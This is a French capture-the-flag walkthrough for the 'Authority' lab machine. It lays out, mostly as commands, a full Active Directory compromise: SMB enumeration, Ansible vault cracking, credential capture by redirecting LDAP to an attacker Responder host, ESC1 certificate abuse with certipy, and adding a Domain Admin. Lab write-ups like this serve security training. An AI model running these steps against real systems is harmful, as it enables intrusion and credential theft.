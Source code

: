   # Authority

	echo "10.10.11.222 authority.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.222 -e tun0 > ports.txt
	sudo nmap -p- -T4 -A 10.10.11.222 -oN nmap.txt
    feroxbuster --silent -u http://authority.htb
    feroxbuster --silent -u http://authority.htb:8443
	
Scans classiques.

    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft IIS httpd 10.0
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 21:52:50Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8443/tcp  open  ssl/https-alt
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49673/tcp open  msrpc         Microsoft Windows RPC
    49688/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49689/tcp open  msrpc         Microsoft Windows RPC
    49691/tcp open  msrpc         Microsoft Windows RPC
    49692/tcp open  msrpc         Microsoft Windows RPC
    49700/tcp open  msrpc         Microsoft Windows RPC
    49709/tcp open  msrpc         Microsoft Windows RPC
    49712/tcp open  msrpc         Microsoft Windows RPC
    49732/tcp open  msrpc         Microsoft Windows RPC

Une page de login se trouve sur https://authority.htb:8443/pwm/private/login mais impossible de la contourner ou d'utiliser des mots de passe par défaut.

En revanche, il y a des partages SMB ouverts et un fichier YAML intéressant :

    smbclient -L //10.10.11.222 -N 
    smbclient -N //10.10.11.222/Development
    cd Automation\Ansible\PWM\defaults
    mget main.yml
    
    pipx install ansible-core
    ansible-vault view main.yml 
    
Un mot de passe est demandé pour lire le fichier. On ne possède pas ce mot de passe mais on va pouvoir convertir et tenter de cracker les credentials présents facilement avec JTR.

Il faut bien prendre toute la ligne commençant par "$ANSIBLE_VAULT" et retirer tous les espaces sauf celui qu'il y a après "AES256" :


    $ANSIBLE_VAULT;1.1;AES256 
    633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764


Il n'y en a que trois donc on peut tout faire rapidement : 

    vim ansible1.txt
    vim ansible2.txt
    vim ansible3.txt
    
    ansible2john ansible1.txt > hash1.txt
    ansible2john ansible2.txt > hash2.txt
    ansible2john ansible3.txt > hash3.txt
    
    john hash1.txt
    john hash2.txt
    john hash3.txt
    
On trouve le même mot de passe faible pour les trois, on va pouvoir l'utiliser pour tout déchiffrer : 

     cat vault1 | ansible-vault decrypt 
     cat vault2 | ansible-vault decrypt 
     cat vault3 | ansible-vault decrypt 


On obtient ce qui ressemble à un nom de compte de service et deux mots de passe. Impossible de les utiliser pour se connecter directement à l'AD mais ils fonctionnent pour le site web trouvé en :8443 

Le login classique renvoie une erreur mais on peut se connecter sur le gestionnaire de configuration : https://authority.htb:8443/pwm/private/config/manager 

On voit des logs d'erreurs sur une connexion échouée et la possibilité d'importer ou télécharger la configuration au format XML. 

En téléchargeant la configuration, on voit qu'il est possible de spécifier le serveur de destination : 

        <setting key="ldap.serverUrls" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING_ARRAY" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP URLs</label>
            <value>ldaps://authority.authority.htb:636</value>
        </setting>
    
En mettant en place un Responder et en renvoyant ce fichier XML avec notre adresse on pourra sûrement récupérer des credentials ou des hashes : 

    sudo responder -I tun0
    vim PwmConfiguration.xml 
    
Valeur à mettre à la place de l'ancien serveur : 

> <value>ldap://10.10.16.95:389</value>

Après le redémarrage de l'application, on reçoit bien le mot de passe en clair pour l'utilisateur **"svc_ldap"**

    evil-winrm -u svc_ldap -p 'MDP' -i 10.10.11.222
    type C:\Users\svc_ldap\Desktop\user.txt
    

## Élévation de privilèges


    upload PrivEscCheck.ps1
    Import-Module .\PrivEscCheck.ps1
    Invoke-PrivEscCheck -Extended

    upload winpeas.exe
    .\winpeas.exe 

    certipy find -u svc_ldap -p 'MDP' -dc-ip 10.10.11.222
    cat 20231118120348_Certipy.json | grep vuln -i -A 10 -B 10


Le certificat "CorpVPN" semble vulnérable à l'ESC1.
Voir : https://github.com/ly4k/Certipy#esc1

    impacket-addcomputer 'authority.htb/svc_ldap:MDP' -dc-ip 10.10.11.222 -computer-name 'Mon_ordi' -computer-pass 'Mdp123!'
    
    certipy req -username 'Mon_ordi$' -password 'Mdp123!' -ca 'AUTHORITY-CA' -target 10.10.11.222 -template 'CorpVPN' -upn "administrator@authority.htb" -dns authority.authority.htb
    
    certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222 -ldap-shell

On obtient bien un shell LDAP, qui va nous permettre de créer un administrateur : 

    # help 
    # add_user tim
    # add_user_to_group tim "Domain Admins"
    
<br>
    
    impacket-psexec 'authority.htb/tim:*+^M9">U|p+4Gql'@10.10.11.222
    type C:\Users\Administrator\Desktop\root.txt
